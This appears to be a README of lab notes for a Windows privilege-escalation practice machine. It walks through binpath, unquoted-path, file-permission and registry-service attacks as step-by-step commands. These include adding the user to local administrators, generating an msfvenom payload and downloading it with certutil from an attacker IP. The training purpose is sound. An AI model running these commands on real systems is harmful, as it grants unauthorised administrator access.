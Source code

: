 # Windows-PrivEsc



## Binpath

1. ```accesschk64.exe -wuvc daclsvc```
![0](images/binpath/1.png)
Notice that the output suggests that the user has the “SERVICE_CHANGE_CONFIG” permission.

2. ```sc config daclsvc binpath= "net localgroup administrators user /add"```
![0](images/binpath/2.png)

3. ```sc start daclsvc```

4. ![0](images/binpath/3.png)

## Unquoted path

1. ```sc qc unquotedsvc```
![0](images/unquote/1.png)

2. Create a executable file with name "common" so when
 ```msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe```
![0](images/unquote/2.png)

3. Transfer the file to windows machine 
```certutil.exe -urlcache -f http://192.168.43.97:8000/common.exe common.exe```
and move it into "C:\Program Files\Unquoted Path Service"

4. ```sc start unquotedsvc```
![0](images/unquote/3.png)

5. ![0](images/unquote/4.png)

## Fileperm

1. ```sc qc filepermsvc```
![0](images/fileperm/1.png)

2. ```accesschk64.exe "C:\Program Files\File Permissions Service\filepermservice.exe"```
![0](images/fileperm/2.png)

3. Now the transfer the windows_service.c file from C:\Users\user\Desktop\Tools\Source folder to your attacker machine and edit it like following.

![0](images/reg/4.png)

4. Now compile it into an executable and transfer back to windows machine.
```x86_64-w64-mingw32-gcc windows_service.c -o filepermservice.exe```

5. ```copy /y c:\Temp\filepermservice.exe "c:\Program Files\File Permissions Service\filepermservice.exe"```

6. ```sc start filepermsvc```

## Services (Registry)
1. Getting a Powershell from initial shell.
![0](images/reg/1.png)
![0](images/reg/2.png)

2. 
```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```
![0](images/reg/3.png)

3. Now the transfer the windows_service.c file from C:\Users\user\Desktop\Tools\Source folder to your attacker machine and edit it like following.

![0](images/reg/4.png)

4. Now compile it into an executable and transfer back to windows machine.
```
x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

5. Copy it to C:\Temp directory

6. Now run the following command 
```reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f```

![0](images/reg/5.png)

7. ```sc start regsvc```

8. Check 

![0](images/reg/6.png)

